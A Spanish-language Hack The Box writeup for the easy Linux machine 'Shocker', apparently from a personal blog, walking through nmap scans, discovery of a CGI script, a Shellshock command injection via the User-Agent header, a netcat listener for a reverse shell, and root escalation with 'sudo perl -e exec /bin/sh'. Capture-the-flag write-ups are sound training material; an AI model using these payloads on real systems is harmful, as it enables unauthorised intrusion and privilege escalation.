 ```yaml
---
title: Shocker - HTB Writeup
date: 2023-09-06 16:00:00 +0800
categories: [Writeups, HTB]
tags: [Easy, Linux, Writeup]
image:
  path: /assets/img/post/shocker/adi-goldstein-EUsVwEOsblE-unsplash.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


Shocker es un máquina de dificultad ```Easy``` en la plataforma **Hack The Box**

Esta máquina me resulta muy interesante ya que es la primera vez que voy a tocar el exploit ```Shellshock```

## **Reconocimiento**

Comenzamos con un escaneo de puertos utilizando ```nmap```:

```bash
nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.10.10.56 -oG allPorts
```

![img](/assets/img/post/shocker/626f4269-71bd-4a1b-a55e-c2b827453f41.png)

Encontramos los puertos ```80``` y ```2222``` abiertos, vamos a ver que **servicios** se ejecutan en dichos puertos:

```bash
nmap -sCV -p80,2222 10.10.10.56 -oN versions
```

![img](/assets/img/post/shocker/7e3b09ac-648b-4229-b80d-2c105154baed.png)

Vemos que en el puerto ```80``` hay un servicio ```Apache``` y en el ```2222``` hay un servicio ```OpenSSH```

Vamos a ver el puerto ```80```, a ver que encontramos:

![img](/assets/img/post/shocker/1f0f0165-25ee-41ae-8baf-7b3b786a9068.png)

No encontramos nada, por lo que vamos a seguir con la **fase de reconocimiento**, a ver si podemos listar algun **directorio o archivo interesante**:

![img](/assets/img/post/shocker/c24da344-a70e-43f5-a53a-404137e1c77a.png)

Encontramos un directorio ```cgi-bin```, el cual suele tener cosas interesantes

Si volvemos a enumerar directorios desde esta ruta, nos encontraremos un archivo ```user.sh```, el cual al acceder a la ruta junto al archivo, nos hará la descarga automaticamente, lo descargaremos para ver que contiene:

![img](/assets/img/post/shocker/eb179a12-d186-4a41-b0f0-acd32adf742e.png)

Vemos que es un archivo que al ejecutarlo, guarda la hora en la que se ha ejecutado

Si buscamos información podemos encontrar que los archivos ```CGI``` suelen ser usados para explotar ```Shellshock```, así que vamos a realizar la **explotación**

## **Explotación**

Podemos ver en este [repositorio](https://github.com/opsxcq/exploit-CVE-2014-6271) como poder explotar ```Shellshock``` desde consola, nosotros lo haremos desde **Burpsuite**, aunque al final el resultado es el mismo

Primero vamos a ver si podemos ejecutar el ```Shellshock```

```bash
user-agent: () { :; }; echo; echo; /bin/bash -c 'id'"
```

![img](/assets/img/post/shocker/a287c41c-c780-42bb-b2f0-12015947b21b.png)

Como podemos ver, podemos inyectar comandos en el ```User-Agent```, vamos a conseguir una ```reverse shell```, con el oneline que usamos siempre para ello:

```bash
nc -lvnp 443
```

![img](/assets/img/post/shocker/3f8fb66f-9696-4160-8938-e07203953664.png)

Si nos ponemos en escucha con ```nc``` por el puerto indicado, conseguiremos **acceso al sistema** y a la **user flag**

![img](/assets/img/post/shocker/fb2428ff-0267-4e82-a421-4e9e9fdae12b.png)

## **Escalada de Privilegios**

Vamos a hacer un pequeño **reconocimiento**, para ver de que manera podemos escalar privilegios

Ejecutando ```sudo -l``` podemos ver que binarios podem os ejecutar como ```root```:

![img](/assets/img/post/shocker/06d78087-6e38-4455-b2dd-91e65d6dbb54.png)

Como vemos podemos ejecutar como ```root``` el binario ```perl```

Por lo tanto vamos a consultar [GTFOBins](https://gtfobins.github.io/), un recurso web que nos ayudará muchísimo

Siguiendo los pasos de la web ejecutaremos:

```bash
sudo perl -e 'exec "/bin/sh";'
```

![img](/assets/img/post/shocker/3e8fa848-ab6e-4e04-b9d1-cd40fe6b7c32.png)

Y Bingo! Conseguiremos **acceso** a la máquina como el usuario ```root```, y por tanto tambien a la **root flag**

![img](/assets/img/post/shocker/9b6268d5-3382-4ca6-b470-c96c5f9acfc6.png)

Espero que os haya gustado y servido de ayuda, cualquier comentario se agradece. Adios!